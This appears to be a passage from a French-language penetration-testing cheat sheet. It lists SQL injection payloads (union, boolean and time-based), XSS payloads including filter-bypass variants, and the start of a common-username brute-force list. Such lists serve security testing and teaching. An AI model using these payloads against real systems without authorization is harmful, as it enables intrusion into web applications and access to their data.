 **Union-based :**
```sql
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
' UNION SELECT null,null,null--
' UNION SELECT version(),database(),user()--
```

**Boolean-based :**
```sql
' AND 1=1--
' AND 1=2--
' AND (SELECT COUNT(*) FROM users)>0--
' AND (SELECT LENGTH(database()))>5--
```

**Time-based :**
```sql
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT SLEEP(5))--
'; SELECT pg_sleep(5)--
```

#### Payloads XSS

**Basiques :**
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>
```

**Bypass de Filtres :**
```html
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
<img src="x" onerror="alert('XSS')">
<svg><script>alert('XSS')</script></svg>
```

**Contextes Spéciaux :**
```html
'; alert('XSS'); //
</script><script>alert('XSS')</script>
" onmouseover="alert('XSS')"
</style><script>alert('XSS')</script>
```

#### Dictionnaires de Force Brute

**Utilisateurs Communs :**
```
admin
administrator
root
user
test
demo
guest
operator
manager
service
```
